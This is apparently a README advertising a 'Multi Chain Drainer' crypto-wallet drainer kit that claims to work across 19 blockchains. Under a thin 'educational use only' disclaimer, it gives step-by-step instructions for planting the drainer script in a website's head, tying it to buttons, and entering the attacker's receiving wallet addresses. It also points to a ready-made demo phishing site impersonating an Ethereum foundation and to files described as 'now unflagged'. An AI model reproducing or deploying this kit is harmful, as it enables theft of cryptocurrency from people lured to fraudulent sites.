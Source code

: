 #########################################################################################################
 ‼️‼️‼️‼️ This files is dedicated to WEB3.0 learning, protection and Legal Penetration Testing. All information on this files is for educational use only ‼️‼️‼️‼️
#########################################################################################################

💯 Multi Chain Drainer System 💯

Drain on 19 different chains 🚀: ETH,OPTIMISM,CRONOS,BSC,GNOSIS,FUSE,HECO,POLY AND MORES !!
Installation on any website files and documentation included 🔥

Installation & Instructions of the draining system on any WEBSITE / MultiDrainerV6.3.rar

# STEP 1
<script charset="UTF-8" type="text/javascript" src="./85562950-42ac-48d9-9757-cb0ae30ccb7c.js"></script>
<!–– Please do not forgot to update the files.zip (now unflagged) ––>

Paste these scripts in the head of your index.html of your website
then add the class "interact-button" to any buttons that you want to prompt the drainer.


# STEP 2
Move all the files and folder in the directory of your website. ( Image, Scripts, Style and the JS files)



# STEP 3 
Add your Wallet Adresses in the wallet.js files, you can find the .js files in the scripts folder.

Now replace this line "0xreceiverwallet" for your wallet bsc and your wallet eth 

"eth_wallet_receiver_id" = "0xreceiverwallet";

"bsc_wallet_receiver_id" = "0xreceiverwallet";

    }
} 

It should look like this

"eth_wallet_receiver_id" = "0x3f349bBaFEc1551819B8be1EfEA2fC46cA749aA1";

"bsc_wallet_receiver_id" = "0x3f349bBaFEc1551819B8be1EfEA2fC46cA749aA1";
.


All is setup your drainer is ready to go. 
Upload your website on Vercel or any Hosting


WE PROVIDE A CUSTOM DEMO WEBSITE 100% WORKING ALSO NAMED : newperfectdrainer2024.rar
Only thing to do is # STEP 3 


DEMO WEBSITE : https://ethfoundation.vercel.app/

#ETHEREUM #BINANCE #NFT #SEAPORT #DRAINERTESTING #BITCOIN #BNB #ETH

#########################################################################################################‼️
 ‼️‼️‼️‼️ This files is dedicated to WEB3.0 learning, protection and Legal Penetration Testing. All information on this files is for educational use only ‼️‼️‼️‼️
#########################################################################################################

